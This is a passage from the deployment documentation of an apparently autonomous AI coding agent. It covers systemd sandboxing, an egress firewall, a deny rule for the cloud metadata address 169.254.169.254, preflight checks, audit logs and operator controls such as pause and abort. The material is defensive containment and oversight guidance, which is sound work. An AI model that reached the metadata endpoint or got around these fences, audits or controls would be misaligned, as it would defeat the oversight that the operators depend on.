      workspace + report dir, `PrivateTmp=yes`.
- [ ] **Egress firewall** (`IPAddressAllow=` the model + reporting hosts only;
      `IPAddressDeny=169.254.169.254` to block cloud metadata). This is what
      contains a reporting tool that isn't SSRF-guarded.
- [ ] Put the model key in a **root-owned 0600 `EnvironmentFile`**, not the unit
      text or the crontab.

### Preflight

Run the built-in health check as the loop's user, against the loop's config —
it flags root, `allow` posture, audit-off, a literal key, and fence gaps:

```sh
sudo -u jichi jichi --config /srv/jichi/config.autonomous.json doctor
```

See also [HARDENING.md](HARDENING.md) for the threat-model history behind these
controls (M130–M134).

---

## 9. Recommendations & deferred work

**Recommended default posture for an unattended loop:** dedicated non-root user →
systemd unit with the sandbox above → `config.autonomous.json` (`deny` privileged,
fence on, revert-out-of-scope) → `loop.sh` with `--verify`, a narrow
`--edit-scope`, per-run budgets, and a `COST_CAP_TOKENS`. Semi-supervised? Add
`--notify`/`--bell` ([NOTIFY.md](NOTIFY.md)), watch `journalctl -f`, and start
each task with **`--control`** so you can probe (`status`), steer (`inject`),
hold (`pause`), or cut a loss (`abort`) without killing the run — see
[CONTROL.md](CONTROL.md) (M159).

**A built-in `--loop` / queue primitive — considered, deferred.** It would save the
~120 lines of `loop.sh` and let jichi share a warm process/index across tasks. But it
would also pull scheduling, persistence, mutual exclusion, and per-task
process-isolation *into* the binary — duplicating `systemd`/`cron`/`flock`, and
tempting a design where many tasks share one longer-lived, more-privileged process
(worse blast radius). The external supervisor keeps each task in its own bounded,
freshly-fenced run and keeps containment at the OS boundary where it is strongest.
If a future need is concrete (e.g. sharing an expensive local index across
hundreds of tiny tasks), the [daemon](DAEMON.md) is the place to grow it, not a new
top-level loop.

---

## 10. Verification / try it

The reference loop is exercised end-to-end offline by `tests/e2e/supervisor.py`
(a mock model calls the shipped `report_status` tool; the supervisor routes the
task to `done/`). To drive it against your own model:

```sh
cd examples/autonomous-loop
chmod +x *.sh && export PATH="$PWD:$PATH"
cp config.autonomous.json /tmp/cfg.json          # edit the model block
export JICHI_CONFIG=/tmp/cfg.json JICHI_REPORT_FILE=/tmp/status.log
mkdir -p queue/pending
echo "Summarize README.md in 3 bullets, then call report_status." \
    > queue/pending/summarize.task
RUN_ONCE=1 WORKSPACE="$PWD/../.." ./loop.sh
cat /tmp/status.log ; ls queue/done
```

Read the outcomes afterwards with the offline readers (M158, see
[OBSERVABILITY.md](OBSERVABILITY.md)): `jichi runs` renders one triage
row per bounded run's journal (`~/.jichi.d/runs/`), and
`jichi audit --since 1d` summarizes every privileged-command attempt
(`~/.jichi.d/audit/privileged.jsonl`). Before starting the loop,
`jichi doctor --unattended` judges the config against this guide's
posture and exits 1 on an unsafe one — the reference `loop.sh` runs it when
`PREFLIGHT=1`.

---

See also: [DEPLOYMENT.md](DEPLOYMENT.md), [TMUX.md](TMUX.md),
[AUTONOMY.md](AUTONOMY.md), [DAEMON.md](DAEMON.md), [HARDENING.md](HARDENING.md),
[OBSERVABILITY.md](OBSERVABILITY.md), [NOTIFY.md](NOTIFY.md),
[SCRIPTING.md](SCRIPTING.md), [HOOKS.md](HOOKS.md),
[USER_TOOLS.md](USER_TOOLS.md).
